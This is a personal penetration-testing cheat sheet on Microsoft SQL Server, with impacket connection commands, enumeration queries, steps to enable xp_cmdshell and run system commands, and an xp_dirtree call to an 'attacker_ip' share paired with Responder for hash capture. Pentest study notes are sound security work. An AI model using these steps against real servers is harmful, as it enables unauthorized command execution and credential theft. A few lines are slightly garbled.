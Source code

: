 
## Good places and tools

[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) - ultimate cheatsheet

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is A PowerShell Toolkit for Attacking SQL Server
[PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet) has its own handy cheatsheet.


## Warning

Be careful, you can **block accounts** if you fail login several times using an existing username.

## Impacket smb related scripts

[[Impacket-Cheatsheet]]; if you have credentials:
```bash
# Connect to a Microsoft SQL server
impacket-mssqlclient -port $PORT $domain/$sql_svc 
# As a user with Windows Authenciation
impacket-mssqlclient $user:$hostname@$IP -windows-auth
# Specify a database instance
-db $database_instance
# If to are targeting a DC 
-dc-ip 
# Do prompt for password
-no-pass
```

Basic Queries
```sql
SELECT @@version					 	-- version check
SELECT DB_NAME()						-- current database
SELECT name FROM master..sysdatabases;	-- list databases

SELECT name, database_id, create_date FROM sys.databases;

USE <databasenamegoeshere>;
SELECT * FROM information_schema.tables;
SELECT * FROM users;

-- Has two comment types
SELECT 1 — comment  
SELECT /*comment*/ 

SELECT is_srvrolemember('sysadmin'); 	-- role check

```

Show all the tables in a database
```sql
SELECT table_name, table_schema, table_type
    FROM information_schema.tables
    WHERE table_catalog = 'TestDB'
    ORDER BY table_name ASC;
```

Show all tables across all databases
```sql
SELECT *
    FROM information_schema.tables
    ORDER BY table_name ASC;
```


## Command Execution

Check if [xp_cmdshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15)  is already active or enabled it [server configuration option: xp_cmdshell](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15)
```sql   
EXEC xp_cmdshell 'net user'; -- privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; -- priv  
RECONFIGURE; -- priv  
EXEC sp_configure 'xp_cmdshell', 1; -- priv  
RECONFIGURE; -- priv
-- OR
EXEC mast.dbo.xp_cmdshell 'cmd';
-- OR on later versions EXECUTE not EXEC:
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'net user';
```

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test'; EXEC xp_dirtree @q;--+ 
```
Or
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

## Hash Passback

Use [[Responder-Cheatsheet]] to catch the service hash of user 
```bash
sudo responder -I $interface
xp_dirtree "\\attacker_ip\Share"
```

## References

[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
[therootcompany](https://therootcompany.com/blog/mssql-cheat-sheet/)
[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 
[PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
[xp_cmdshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15)  